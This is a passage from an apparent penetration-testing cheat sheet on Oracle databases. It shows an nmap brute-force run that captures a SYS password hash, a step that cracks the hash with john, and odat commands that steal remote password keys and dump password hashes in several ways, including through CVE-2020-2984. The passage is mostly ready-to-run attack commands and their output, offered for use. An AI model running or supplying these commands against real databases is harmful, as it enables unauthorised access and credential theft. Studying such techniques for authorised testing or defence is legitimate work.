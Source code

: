 ```
root@kali:~# nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30

Starting Nmap 6.49BETA4 (https://nmap.org) at 2016-03-02 14:58 EST
Nmap scan report for 10.11.21.30
PORT     STATE SERVICE
1521/tcp open  oracle
| oracle-brute-stealth:
|   Accounts
|     SYS:$o5logon$1245C95384E15E7F0C893FCD1893D8E19078170867E892CE86DF90880E09FAD3B4832CBCFDAC1
|     A821D2EA8E3D2209DB6*4202433F49DE9AE72AE2 - 
|     Hashed valid or invalid credentials
|   Statistics
|_    Performed 241 guesses in 12 seconds, average tps: 20

john hashes.txt
```

Also, we can use odat

```bash
# Test module
odat stealremotepwds -s <IP> -U <username> -P <password> -d <SID> --test-module

# Obtain the session key and salt for user list
odat stealremotepwds -s <IP> -U <username> -P <password> -d <SID> --get-all-passwords --user-list /usr/share/nmap/nselib/data/oracle-default-accounts.lst
```

### Dump Oracle Hashes

Password hashes in Oracle are stored in the **sys.users$** or **dba\_users** tables. With permissions, we can extract them using odat

{% hint style="info" %}
You may want to add the `--sysdba` to make it works
{% endhint %}

```bash
# Test the module before use it
odat passwordstealer -s <IP> -U <username> -P <password> -d <SID> --test-module

# Dump hashes
odat passwordstealer -s <IP> -U <username> -P <password> -d <SID> --get-passwords

# Dump hashes indirectly with CVE-2020-2984 for 12c or higher 
odat passwordstealer -s <IP> -U <username> -P <password> -d <SID> --get-passwords-ocm

# Dump hashes from history
odat passwordstealer -s <IP> -U <username> -P <password> -d <SID> --get-passwords-from-history

# Dump hashes with DBMS_STAT
odat passwordstealer -s <IP> -U <username> -P <password> -d <SID> --get-passwords-dbms-stats
```
{% endtab %}
{% endtabs %}
